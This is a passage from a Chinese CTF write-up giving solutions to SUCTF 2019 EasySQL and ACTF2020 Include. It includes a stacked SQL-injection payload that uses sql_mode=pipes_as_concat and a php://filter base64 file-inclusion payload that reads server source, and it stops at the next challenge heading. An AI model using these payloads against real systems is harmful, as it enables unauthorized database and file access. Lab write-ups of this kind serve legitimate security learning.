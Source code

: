 ```php
$cat=$_GET['cat'];
echo $cat;
if($cat=='dog')
{
	echo 'Syc{cat_cat_cat_cat}';
}
```

直接出flag

## 0x5.[SUCTF 2019]EasySQL

还是堆叠注入

show databases;和show tables后就不知道干啥了。。

后来看了wp：select $_post[query] || flag from flag

### 1）正解

```sql
1;set sql_mode=pipes_as_concat;select 1
```

即：selecr 1;sett sql_mode=pips_as_concat;select 1 || flag from flag

**补充**：

补充系统变量@@sql_mode：是一组mysql支持的基本语法及校验规则
PIPES_AS_CONCAT：将“||”视为字符串的连接操作符而非或运算符，这和Oracle数据库是一样的，也和字符串的拼接函数Concat相类似

[Mysql中sql_mode参数](https://blog.csdn.net/weixin_42373127/article/details/88866710)

### 2）非预期解

构造：

``` 
select *,1 || flag from flag
```

## 0x6.[ACTF2020 新生赛]Include

使用php://input 伪协议+POST发送php代码，不行

使用php://filter伪协议进行包含

于是：

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

php://filter与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，阻止其不执行。从而导致任意文件读取。

php://filter 伪协议文件包含读取源代码，加上read=convert.base64-encode，用base64编码输出，不然会直接当做php代码执行，看不到源代码内容。

## 0x7.[极客大挑战 2019]Secret File
